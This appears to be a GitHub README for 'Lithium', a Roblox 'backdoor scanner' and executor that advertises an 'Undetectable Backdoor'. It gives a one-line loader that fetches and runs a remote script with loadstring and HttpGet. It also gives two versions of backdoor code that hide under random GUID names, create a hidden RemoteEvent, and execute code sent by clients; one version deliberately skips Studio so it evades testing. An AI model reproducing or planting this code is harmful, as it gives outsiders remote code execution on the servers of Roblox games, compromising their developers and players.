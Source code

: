 <h1 align="center">Lithium</h1>
<p align="center">Backdoor Scanner for Roblox</p>

---

- ⚡ Powerful Executor
- ✅ Undetectable Backdoor
- 😎 Simple UI

---

### Scanner
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Bbblaxtop/Lithium-Roblox/refs/heads/main/src/scanner.lua"))()
```

### Backdoor
```lua
script.Name = game.HttpService:GenerateGUID(false); script.Parent = game:GetService("Chat"); local s1 = Instance.new("RemoteEvent"); s1.Parent = game.LocalizationService; s1.Name = game.HttpService:GenerateGUID(false); s1.OnServerEvent:Connect(function(s2,s3) local s4 = require(14382140693) s4(s3)() end)
```

### Backdoor Non Studio
```lua
if not game:GetService("RunService"):IsStudio() script.Name = game.HttpService:GenerateGUID(false); script.Parent = game:GetService("Chat"); local s1 = Instance.new("RemoteEvent"); s1.Parent = game.LocalizationService; s1.Name = game.HttpService:GenerateGUID(false); s1.OnServerEvent:Connect(function(s2,s3) local s4 = require(14382140693) s4(s3)() end) end
```
